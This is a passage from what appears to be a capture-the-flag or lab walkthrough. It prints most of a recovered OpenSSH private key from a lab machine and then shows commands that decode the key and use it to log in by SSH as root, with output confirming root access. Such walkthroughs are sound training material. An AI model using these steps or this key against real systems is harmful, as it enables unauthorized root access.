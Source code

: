 ```
Cyj+dAiV3c8PcQ4mLIcG2MTL4eMc4zbqA7Vl0IjVN3fGB+OGyZkbTSc/CQVx2ZwzkvW7d9
w1xGnDW1w5wR6gC+mMshpzqKJGGZxLON8JLdjUIfZx6udfkOgA7/sXBk8tIDYuWs7V52Mi
WVo0hemI8Y3QMb5MNFPyp6ya6YrRl/OW6dKsc3RbceEB1ZWBWLDE/d1G/43Ys1brL8uTbv
pSqiPh4ULLlL9To9V1e+RveFy6gOFV+1T6vKNMBqKVA9NK4LIwn0TmUk3+prLGYWdLZ+EV
QCKKiWrD3CBhWxNzfBMye391QiVCgwAAAAMBAAEAAAGAD5AXKc8UM88NicsZjuk3NZOAIf
Fjz2MfhaZIcINvMtDdsDcWMfVqmAl/kROPoT9eBHqy1v1y73BH/Uixj07Zx7yjE245BKpY
aJcTtkEmnVKtrUNZbfyod9hCmME3yurrLrcuQ+uZQX9NYmq3TY8y8r8FIUXFKtOpAwCNMX
Fx34qLeNNbpgvnlR7x3zf9dbBxGnqwrrHLDsB3IryAUflkNaX2HppFNZ3AMiHq+HEKjpiO
pTbPEW6IuOFWHGKVZYd2Wdil2+ZIoN7ZhUWvdMKghxJIOTEx0P0RAif7vj1W83xHvxVc9u
Ayzp49f2QEov+ZGUmfFRT78a2R39NLeDaAHMVnbn1ROz7pnUYJV7EKREVT8+/NlkzItZKx
PCgFwGsz4aQleCSTjaIi5ZLhIxnWuDPCjgbbIWnXGHb8CkSX5zHSfxGtkfSm9ZoXeS1lnn
rWvDYsx9vtq1vuUsChBLDqFwuuJBXhuySToaOQQMi7SqrigjQaoKYWY4eQxn9QX0zRAAAA
wGz/wO1b8Q4PFg857mV7qZ9WiRHxeoQAUN7RcSfbgpw+VBdUpKOjn4rdq4QiNpIepzaIk6
DYHdV0AVAsZzpukFPYUbfyXVVt+/R/CmWH4+/cajUpWNeD6l3ZoRJDWJ3w7vXR+4pbQcV+
GJawqW1Fc7f0uk+Y8hpue7XkryKm0QHLVJn44EpeL6I45uZRtNfpqteY0kHU1A2rfxIBf5
gG+yCEJiwdpEKlIzMnd8X8otdYg8/omulbDeJ2voZ+o7zbEwAAAMEAzSIcKqD7niW6NKwS
XKufsx+b5PIZ6ITZIXagKv6Pn06YRxCkOBKJdu5/Cr6Z7JMmKSA3ZuN8Pp6U1xoa3PC5J+
AKQJ9FcmTQk9Ln84jGSOkhj0OPHfa5Xa3EjK5qdwaP2iwNe4SXyXO9T7opA6MBoXO4RKac
/Doifw9qz1YZxzThn12/Zpxx8qryNqlsz70uj88XsEXAYnN2/I9/HlKp8p9HYspzYrcFYK
QIGxzX8uy2otSVoWV8GB9Q0ceLdCc7AAAAwQDAiUjXF8myBYt1J4gZgBpY5dZVQ73laU2v
iTLNiFX4CbI59p6OXilxYm/vtSyKVjrFlnla7UtOpi7Ylh3PWuz43gH3l/knZ3lf7DnjJO
/U6ux9JvetPMzp9qrf8kRL8RTMji2Lo3giYevgT4Lv3ASTQWE7DNahAYwV0FA4pwA5dQHq
V9ZfdORT8qDHX4FSEbY681mDB66nkrD5AoYO4XYYd67vy2C3KOXD9901llmM+f2aGp8UjI
HzfKMk8Wg27VkAAAAKcm9vdEBuYXBwYQE=
-----END OPENSSH PRIVATE KEY-----
```

Since we have only discovered two users on this machine (`kathleen` and the default `root`) we can venture a guess that this key may grant root-level SSH access.

```
kali@kali:~$ cat base.file | base32 -d > key.test

kali@kali:~$ chmod 600 key.test 

kali@kali:~$ ssh -p 60022 root@192.168.120.202 -i key.test 
Last login: Tue Nov 10 18:51:59 2020 from 192.168.118.8

[root@nappa ~]# whoami
root
```

This works and grants us root-level access!